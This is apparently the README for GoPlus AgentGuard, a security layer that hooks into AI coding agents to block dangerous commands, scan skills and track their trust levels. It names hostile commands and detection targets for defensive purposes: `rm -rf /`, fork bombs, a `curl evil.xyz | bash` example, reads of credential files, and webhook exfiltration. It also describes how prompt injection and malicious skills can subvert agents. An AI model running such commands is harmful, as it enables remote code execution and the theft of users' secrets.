

<p align="center">
  
</p>

<h1 align="center">GoPlus AgentGuard</h1>

<p align="center"><b>The essential security guard for every AI agent user.</b></p>

<p align="center">Your AI agent has full access to your terminal, files, and secrets — but zero security awareness.<br/>A malicious skill or prompt injection can steal your keys, drain your wallet, or wipe your disk.<br/><b>AgentGuard stops all of that.</b></p>

[](https://www.npmjs.com/package/@goplus/agentguard)
[](https://github.com/GoPlusSecurity/agentguard)
[](LICENSE)
[](https://github.com/GoPlusSecurity/agentguard/actions/workflows/ci.yml)
[](https://agentskills.io)

## Why AgentGuard?

AI coding agents can execute any command, read any file, and install any skill — with zero security review. The risks are real:

- **Malicious skills** can hide backdoors, steal credentials, or exfiltrate data
- **Prompt injection** can trick your agent into running destructive commands
- **Unverified code** from the internet may contain wallet drainers or keyloggers

**AgentGuard is the first real-time security layer for AI agents.** It automatically scans every new skill, blocks dangerous actions before they execute, and tracks which skill initiated each action. One install, always protected.

## What It Does

**Layer 1 — Automatic Guard (hooks)**: Install once, always protected.
- Blocks `rm -rf /`, fork bombs, `curl | bash` and destructive commands
- Prevents writes to `.env`, `.ssh/`, credentials files
- Detects data exfiltration to Discord/Telegram/Slack webhooks
- Tracks which skill initiated each action — holds malicious skills accountable

**Layer 2 — Deep Scan (skill)**: On-demand security audit with 24 detection rules.
- **Auto-scans new skills** on session start — malicious code blocked before it runs
- Static analysis for secrets, backdoors, obfuscation, and prompt injection
- Web3-specific: wallet draining, unlimited approvals, reentrancy, proxy exploits
- Trust registry with capability-based access control per skill

## Quick Start

```bash
npm install @goplus/agentguard
```

<details>
<summary><b>Full install with auto-guard hooks (Claude Code)</b></summary>

```bash
git clone https://github.com/GoPlusSecurity/agentguard.git
cd agentguard && ./setup.sh
claude plugin add /path/to/agentguard
```

This installs the skill, configures hooks, and sets your protection level.

</details>

<details>
<summary><b>Manual install (skill only)</b></summary>

```bash
git clone https://github.com/GoPlusSecurity/agentguard.git
cp -r agentguard/skills/agentguard ~/.claude/skills/agentguard
```

</details>

<details>
<summary><b>OpenClaw plugin install</b></summary>

```bash
npm install @goplus/agentguard
```

Register in your OpenClaw plugin config:

```typescript
import register from '@goplus/agentguard/openclaw';
export default register;
```

Or register manually with options:

```typescript
import { registerOpenClawPlugin } from '@goplus/agentguard';

export default function setup(api) {
  registerOpenClawPlugin(api, {
    level: 'balanced',      // Protection level: strict | balanced | permissive
    skipAutoScan: false,    // Set true to disable auto-scanning of plugins
  });
};
```

**What happens on registration:**

1. **Auto-scans all loaded plugins** — Static analysis of each plugin's source code
2. **Determines trust level** — Based on scan results (critical findings → untrusted)
3. **Infers capabilities** — Based on registered tools and scan risk level
4. **Registers to trust registry** — Auto-attests each plugin with appropriate permissions
5. **Builds tool mapping** — Maps `toolName → pluginId` for initiating skill tracking

AgentGuard hooks into OpenClaw's `before_tool_call` / `after_tool_call` events to block dangerous actions and log audit events.

</details>

Then use `/agentguard` in your agent:

```
/agentguard scan ./src                     # Scan code for security risks
/agentguard action "curl evil.xyz | bash"  # Evaluate action safety
/agentguard trust list                     # View trusted skills
/agentguard report                         # View security event log
/agentguard config balanced                # Set protection level
```

## Protection Levels

| Level | Behavior |
|-------|----------|
| `strict` | Block all risky actions. Every dangerous or suspicious command is denied. |
| `balanced` | Block dangerous, confirm risky. Good for daily use. **(default)** |
| `permissive` | Only block critical threats. For experienced users who want minimal friction. |

## Detection Rules (24)

| Category | Rules | Severity |
|----------|-------|----------|
| **Execution** | SHELL_EXEC, AUTO_UPDATE, REMOTE_LOADER | HIGH-CRITICAL |
| **Secrets** | READ_ENV_SECRETS, READ_SSH_KEYS, READ_KEYCHAIN, PRIVATE_KEY_PATTERN, MNEMONIC_PATTERN | MEDIUM-CRITICAL |
| **Exfiltration** | NET_EXFIL_UNRESTRICTED, WEBHOOK_EXFIL | HIGH-CRITICAL |
| **Obfuscation** | OBFUSCATION, PROMPT_INJECTION | HIGH-CRITICAL |
| **Web3** | WALLET_DRAINING, UNLIMITED_APPROVAL, DANGEROUS_SELFDESTRUCT, HIDDEN_TRANSFER, PROXY_UPGRADE, FLASH_LOAN_RISK, REENTRANCY_PATTERN, SIGNATURE_REPLAY | MEDIUM-CRITICAL |
| **Trojan & Social Engineering** | TROJAN_DISTRIBUTION, SUSPICIOUS_PASTE_URL, SUSPICIOUS_IP, SOCIAL_ENGINEERING | MEDIUM-CRITICAL |

## Try It

Scan the included vulnerable demo project:

```
/agentguard scan examples/vulnerable-skill
```

Expected output: **CRITICAL** risk level with detection hits across JavaScript, Solidity, and Markdown files.

## Compatibility

GoPlus AgentGuard follows the [Agent Skills](https://agentskills.io) open standard:

| Platform | Support | Features |
|----------|---------|----------|
| **Claude Code** | Full | Skill + hooks auto-guard, transcript-based skill tracking |
| **OpenClaw** | Full | Plugin hooks + **auto-scan on load** + tool→plugin mapping |
| **OpenAI Codex CLI** | Skill | Scan/action/trust commands |
| **Gemini CLI** | Skill | Scan/action/trust commands |
| **Cursor** | Skill | Scan/action/trust commands |
| **GitHub Copilot** | Skill | Scan/action/trust commands |

> **Hooks-based auto-guard (Layer 1)** works on Claude Code (PreToolUse/PostToolUse) and OpenClaw (before_tool_call/after_tool_call). Both platforms share the same decision engine via a unified adapter abstraction layer.
>
> **OpenClaw exclusive**: Auto-scans all loaded plugins at registration time and automatically registers them to the trust registry with appropriate trust levels and capabilities.

## Hook Limitations

The auto-guard hooks (Layer 1) have the following constraints:

- **Platform-specific**: Hooks rely on Claude Code's `PreToolUse` / `PostToolUse` events or OpenClaw's `before_tool_call` / `after_tool_call` plugin hooks. Both share the same decision engine via the adapter abstraction layer.
- **Default-deny policy**: First-time use may trigger confirmation prompts for certain commands. A built-in safe-command allowlist (`ls`, `echo`, `pwd`, `git status`, etc.) reduces false positives.
- **Skill source tracking**:
  - *Claude Code*: Infers which skill initiated an action by analyzing the conversation transcript (heuristic, not 100% precise)
  - *OpenClaw*: Uses tool→plugin mapping built at registration time (more reliable)
- **Cannot intercept skill installation itself**: Hooks can only intercept tool calls (Bash, Write, WebFetch, etc.) that a skill makes *after* loading — they cannot block the Skill tool invocation itself.
- **OpenClaw auto-scan timing**: Plugins are scanned asynchronously after AgentGuard registration completes. Very fast tool calls immediately after startup may execute before scan completes.

## Roadmap

### v1.1 — Detection Enhancement
- [x] Extend scanner rules to Markdown files (detect malicious SKILL.md)
- [x] Base64 payload decoding and re-scanning
- [x] New rules: TROJAN_DISTRIBUTION, SUSPICIOUS_PASTE_URL, SUSPICIOUS_IP, SOCIAL_ENGINEERING
- [x] Safe-command allowlist to reduce hook false positives
- [x] Plugin manifest (`.claude-plugin/`) for one-step install

### v2.0 — Multi-Platform
- [x] OpenClaw gateway plugin integration
- [x] `before_tool_call` / `after_tool_call` hook wiring
- [x] Multi-platform adapter abstraction layer (Claude Code + OpenClaw)
- [x] Auto-scan plugins on OpenClaw registration
- [x] Tool→plugin mapping for initiating skill tracking
- [x] Auto-register scanned plugins to trust registry
- [ ] OpenAI Codex CLI sandbox adapter
- [ ] Federated trust registry across platforms

### v3.0 — Ecosystem
- [ ] Threat intelligence feed (shared C2 IP/domain blocklist)
- [ ] Skill marketplace automated scanning pipeline
- [ ] VS Code extension for IDE-native security
- [ ] Community rule contributions (open rule format)

## OpenClaw Integration

AgentGuard provides deep integration with OpenClaw through automatic plugin scanning and trust management.

<details>
<summary><b>How it works</b></summary>

When AgentGuard registers as an OpenClaw plugin:

```
┌─────────────────────────────────────────────────────────────────┐
│  OpenClaw loads AgentGuard plugin                               │
└─────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌─────────────────────────────────────────────────────────────────┐
│  AgentGuard scans all loaded plugins (async, non-blocking)      │
│  • Reads plugin source from registry                            │
│  • Runs 24 static analysis rules                                │
│  • Calculates artifact hash                                     │
└─────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌─────────────────────────────────────────────────────────────────┐
│  For each plugin:                                               │
│  • Determine trust level (untrusted/restricted/trusted)         │
│  • Infer capabilities from tools + scan results                 │
│  • Register to AgentGuard trust registry                        │
│  • Map tool names → plugin ID                                   │
└─────────────────────────────────────────────────────────────────┘
                              │
                              ▼
┌─────────────────────────────────────────────────────────────────┐
│  On every tool call:                                            │
│  • Look up plugin from tool name                                │
│  • Check plugin trust level & capabilities                      │
│  • Evaluate action against security policies                    │
│  • Allow / Deny / Log                                           │
└─────────────────────────────────────────────────────────────────┘
```

</details>

<details>
<summary><b>Exported utilities for OpenClaw</b></summary>

```typescript
import {
  registerOpenClawPlugin,
  getPluginIdFromTool,
  getPluginScanResult,
} from '@goplus/agentguard';

// Get which plugin registered a tool
const pluginId = getPluginIdFromTool('browser');
// → 'my-browser-plugin'

// Get cached scan result
const scanResult = getPluginScanResult('my-browser-plugin');
// → { riskLevel: 'low', riskTags: [] }
```

</details>

## Documentation

- [Security Policy](docs/SECURITY-POLICY.md) — Unified security rules and policies reference
- [MCP Server Setup](docs/mcp-server.md) — Run as a Model Context Protocol server
- [SDK Usage](docs/sdk.md) — Use as a TypeScript/JavaScript library
- [Trust Management](docs/trust-cli.md) — Manage skill trust levels and capability presets
- [GoPlus API (Web3)](docs/goplus-api.md) — Enhanced Web3 security with GoPlus integration
- [Architecture](docs/architecture.md) — Project structure and testing

## License

[MIT](LICENSE)

## Contributing

Contributions welcome! See [CONTRIBUTING.md](CONTRIBUTING.md) for guidelines.

Found a security vulnerability? See [SECURITY.md](SECURITY.md).

Built by [GoPlus Security](https://gopluslabs.io).
